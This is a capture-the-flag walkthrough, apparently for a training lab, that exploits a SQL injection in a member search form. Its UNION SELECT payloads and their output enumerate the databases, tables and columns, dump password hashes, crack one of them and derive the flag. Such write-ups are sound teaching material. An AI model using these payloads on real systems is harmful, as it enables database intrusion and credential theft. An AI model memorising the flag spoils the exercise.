 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql Sql_Injection_basic

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

getting current database name and listing all databases:

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

result:
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

getting a list of tables in current database:
http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

result:
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

which shows that the database has a table called users

listing all column names and types:
http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

result:
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

getting the password information:
http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

result:
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

You can see that it gives us this helpful part that says Decrypt this password -> then lower all the char. Sh256 on it and it's good
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.
Which gives us the original string "FortyTwo"
lower all characters and as per the instructions Sh256 of fortytwo is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)
